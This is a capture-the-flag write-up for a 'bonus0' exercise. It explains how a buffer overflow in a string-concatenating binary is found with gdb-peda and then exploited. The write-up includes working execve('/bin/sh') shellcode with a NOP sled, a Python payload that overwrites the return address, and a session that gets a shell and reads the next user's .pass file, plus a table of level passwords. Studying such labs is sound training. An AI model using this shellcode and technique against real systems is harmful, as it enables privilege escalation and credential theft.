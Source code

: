 # Bonus0 - Code redirection using environnment variable

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| bonus0 | `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728` |
| bonus1 | `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute the binary

```shell
~/bonus0 aaa
  -
  (stdin) a
  -
  (stdin) b
  > a b
```

There is 2 prompts, and it concatenates them.

Lets debug the binary

```shell
(gdb) info functions
0x080484b4  p
0x0804851e  pp
0x080485a4  main
```

See our assembly interpretation in [source file](../source.c)

We can see there is 2 prompts that read at most 4096. Then replace the first `\n` with a `\0`. And then extract 20 chars and concatenate them together.
But if there is no `\n` is the first 20 characters, there is a problem.

Lets check that together, what if we write exactly 20 chars.

```shell
./bonus0
   -
  (stdin) AAAAAAAAAAAAAAAAAAA # 19 chars
   -
  (stdin) BBBBBBBBBBBBBBBBBBBB # 20 chars
  > AAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBB
# It pass with 19 chars in the 1st prompt

./bonus0
  -
  (stdin) AAAAAAAAAAAAAAAAAAAA # 20 chars
  -
  (stdin) BBBBBBBBBBBBBBBBBBBB # 20 chars
  > AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBBBB
  Segmentation fault (core dumped)
```

It segfaults with 20 characters in the first buffer.

Lets debug that.

```shell
gdb-peda$ b*main+18
  (stdin) ABCDEFGHIJKLMNOPQRSTUVWXYZ (A-T 20)
  (stdin) abcdefghijklmnopqrstuvwxyz
gdb-peda$ run
gdb-peda$ x/50x $esp+0x16
  0xbffff616:[0x44434241	0x48474645	0x4c4b4a49	0x504f4e4d
  0xbffff626:	0x54535251][0x64636261	0x68676665  0x6c6b6a69
  0xbffff636:	0x706f6e6d	0x74737271][0xb7fd0ff4][0x63626120
  0xbffff646:	0x67666564	0x6b6a6968	0x6f6e6d6c	0x73727170]
  0xbffff656:	0xfd0ff474	0xc85800b7	0x0000b7fd	0xf61c0000

# [A-T][a-t][0xb7fd0ff4][a-c]' '[d-s]
# 20    20  4            3    1  16

gdb-peda$ continue
  EIP: 0x6d6c6b6a ('jklm')
  Invalid $PC address: 0x6d6c6b6a
  Stopped reason: SIGSEGV
  0x6d6c6b6a in ?? ()
```

Since we injected 20 chars in the prompts, there is like an overflow and it tries to access to the address `0x6d6c6b6a` ('jklm').

Maybe we could set a shellcode as environment variable, and redirect the code to the shellcode address.

We set the shellcode environment variable:

```shell
export SHELLCODE=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

We get the shellcode address:

```shell
gdb-peda$ searchmem SHELLCODE
  [stack] : 0xbffff864 ("SHELLCODE=1\300Ph//shh/bin\211\343PS\211\341\260\v̀")
gdb-peda$ p 0xbffff864 + 10 # (length of "SHELLCODE=")
  $1 = 0xbffff86e
```

Then we replace the part "jklm" in the second prompt with the shellcode address :

```shell
# First prompt: A * 4095 + '\n' (=> to fill exactly the first prompt)
# Second prompt: abcdefghi\x6e\xf8\xff\xbfnopqrstuvwxyz

python -c 'print "A" * 4095 + "\n" + "abcdefghi" + "\x6e\xf8\xff\xbf" + "nopqrstuvwxyz"' > /tmp/exploit10
```

Lets try in gdb

```shell
gdb-peda$ run < /tmp/exploit10
  AAAAAAAAAAAAAAAAAAAAabcdefghivnopqrst abcdefghivnopqrst
> process 6716 is executing new program: /bin/dash
```

It seems that works, lets try directly with the binary:

```shell
cat /tmp/exploit10 - | ~/bonus0
  AAAAAAAAAAAAAAAAAAAAabcdefghivnopqrst abcdefghivnopqrst
id
> Segmentation fault (core dumped)
```

Unfortunately, it works perfectly with gdb but not out of debugger.

In this [post](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it), the first contributor argues _"the stack addresses in the debugger may not match the addresses during normal execution"_.

So maybe our shellcode address is not exact.

Another contributor advices us to put some NOP Sled before our malicious code.

We will modify our shellcode and put some NOP Sled before the shellcode to approximate the exact shellcode address.

```bash
export SHELLCODE=$(python -c 'print "\x90" * 0xff + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

```shell
gdb-peda$ searchmem SHELLCODE
  [stack] : 0xbffff764 ("SHELLCODE=1\300Ph//shh/bin\211\343PS\211\341\260\v̀")
gdb-peda$ p 0xbffff764 + 10 # (length of "SHELLCODE=")
  $1 = 0xbffff76e

python -c 'print "A" \* 4095 + "\n" + "abcdefghi" + "\x6e\xf7\xff\xbf" + "nopqrstuvwxyz"' > /tmp/exploit10

cat /tmp/exploit10 - | ~/bonus0
   -
   -
  > AAAAAAAAAAAAAAAAAAAAabcdefghiwnopqrst abcdefghiwnopqrst
  $ whoami
  > bonus1
  $ cat /home/user/bonus1/.pass
  > cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

---

## Sources

### Hack

- [Buffer overflow et variable d'environnement](https://www.hacktion.be/buffer-overflow-variable-environnement/)
- [Buffer overflow works in gdb but not without it](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it)

### C

- [Man puts](https://linux.die.net/man/3/puts)
- [Man read](https://linux.die.net/man/3/read)
- [Man strchr](https://linux.die.net/man/3/strchr)
- [Man strcpy](https://linux.die.net/man/3/strcpy)
- [Man strncpy](https://linux.die.net/man/3/strncpy)
- [Man strcat](https://linux.die.net/man/3/strcat)
